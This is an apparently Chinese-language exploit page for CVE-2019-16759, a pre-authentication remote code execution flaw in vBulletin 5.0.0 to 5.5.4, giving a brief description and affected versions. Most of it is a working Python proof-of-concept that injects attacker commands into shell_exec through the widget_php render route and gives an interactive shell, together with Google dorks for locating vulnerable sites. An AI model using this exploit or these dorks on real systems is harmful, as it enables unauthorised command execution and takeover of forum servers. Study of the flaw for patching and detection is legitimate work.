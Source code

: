 ## 前言  

vBulletin 是一个商用的论坛程序，在全球拥有数万用户且增长速度很快。该论坛采用PHP Web语言及MySQL数据库的方式进行架构。《财富》 500强和Alexa排名前100万的公司网站大部分都在使用的一款互联网论坛程序。

## 漏洞简介  

CVE-2019-16759 vBulletin 5.x 0day pre-auth RCE exploit ，无需预认证即可执行远程代码执行漏洞 

## 漏洞危害  

不需要在目标论坛上注册帐户,即可在运行vBulletin安装的服务器上执行shell命令 

## 影响范围  

### 产品  

> vBulletin 5.x 

### 版本  

> vBulletin v5（5.0.0到5.5.4）版本  

### 组件  

> vBulletin  

## 漏洞复现  

## POC

```python
#!/usr/bin/python
#
# vBulletin 5.x 0day pre-auth RCE exploit
# 
# This should work on all versions from 5.0.0 till 5.5.4
#
# Google Dorks:
# - site:*.vbulletin.net
# - "Powered by vBulletin Version 5.5.4"

import requests
import sys

if len(sys.argv) != 2:
    sys.exit("Usage: %s <URL to vBulletin>" % sys.argv[0])

proxies ={
     "http":"http://127.0.0.1:8080/"
}
params = {"routestring":"ajax/render/widget_php"}

while True:
     try:
          cmd = raw_input(">>>Shell= ")
          params["widgetConfig[code]"] = "echo shell_exec('"+cmd+"');echo md5('vBulletin'); exit;"
          r = requests.post(url = sys.argv[1], data = params, proxies=proxies)
          if r.status_code == 200 or r.status_code ==403 and 'be4ea51d962be8308a0099ae1eb3ec63' in r.text:
               print
               print r.text.split('be4ea51d962be8308a0099ae1eb3ec63')[0]
          else:
               sys.exit("Exploit failed! :(")
     except KeyboardInterrupt:
          sys.exit("\nClosing shell...")
     except Exception, e:
          sys.exit(str(e))

```
### 


